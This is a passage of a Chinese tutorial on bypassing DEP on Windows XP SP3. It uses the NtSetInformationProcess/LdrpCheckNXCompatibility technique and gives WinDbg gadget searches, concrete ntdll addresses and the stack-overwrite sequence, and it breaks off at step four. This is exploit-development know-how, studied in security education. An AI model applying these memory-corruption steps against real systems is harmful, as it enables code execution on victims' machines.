 ```
  +0x000 ImageDispatchEnable   : Pos 5, 1 Bit
  +0x000 Spare       : Pos 6, 2 Bits
```

当DEP 被启用时，ExecuteDisable 被置位，当DEP 被禁用，ExecuteEnable 被置位，当Permanent 标志置位时表示这些设置是最终设置，不可更改。代码实现：
```
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;
NtSetInformationProcess(
  NtCurrentProcess(),   // ProcessHandle = -1
  ProcessExecuteFlags,   // ProcessInformationClass = 0x22（ProcessExecuteFlags）
  &ExecuteFlags,     // ProcessInformation = 0x2（MEM_EXECUTE_OPTION_ENABLE）
  sizeof(ExecuteFlags));   // ProcessInformationLength = 0x4
```

具体实现思路（以我电脑上VirtualBox虚拟机下的xp sp3为例）：
**1) 将al设置为1**
比如指令mov al,1 / ret，然后用该指令地址覆盖返回地址：
```
0:000> lmm ntdll
start    end        module name
7c920000 7c9b3000   ntdll      (pdb symbols)          c:\symbollocal\ntdll.pdb\1751003260CA42598C0FB326585000ED2\ntdll.pdb
0:000> s 7c920000 l 93000 b0 01 c2 04
7c9718ea  b0 01 c2 04 00 90 90 90-90 90 8b ff 55 8b ec 56  ............U..V
0:000> u 7c9718ea
ntdll!NtdllOkayToLockRoutine:
7c9718ea b001            mov     al,1
7c9718ec c20400          ret     4

```

由于上面的ret 4，因此要再向栈中填充4字节（比如0xffffffff）以抵消多弹出的4字节，如果选择的指令刚好是ret则无须再多填充4字节。

**2)跳转到ntdll!LdrpCheckNXCompatibility**
跳转到ntdll!LdrpCheckNXCompatibility中的部分代码（从cmp al,1 开始，可通过windbg下的命令 uf ntdll!LdrpCheckNXCompatibility来查看其反汇编代码），比如以下地址就需要用0x7c93cd24来覆写堆栈上的第 二个地址：
```
ntdll!LdrpCheckNXCompatibility+0x13:
7c93cd24 3c01            cmp     al,1
7c93cd26 6a02            push    2
7c93cd28 5e              pop     esi
7c93cd29 0f84df290200    je      ntdll!LdrpCheckNXCompatibility+0x1a (7c95f70e)  ; 之前已将al置1，故此处实现跳转
```

**3)上面跳转后来到这里：**
```
0:000> u 7c95f70e
ntdll!LdrpCheckNXCompatibility+0x1a:
7c95f70e 8975fc          mov     dword ptr [ebp-4],esi  ; [ebp-0x4]= esi = 2
7c95f711 e919d6fdff      jmp     ntdll!LdrpCheckNXCompatibility+0x1d (7c93cd2f)
```

**4)上面跳转后来到：**
```
0:000> u 7c93cd2f
ntdll!LdrpCheckNXCompatibility+0x1d:
7c93cd2f 837dfc00        cmp     dword ptr [ebp-4],0
7c93cd33 0f85f89a0100    jne     ntdll!LdrpCheckNXCompatibility+0x4d (7c956831) ; 不相等再次实现跳转
```
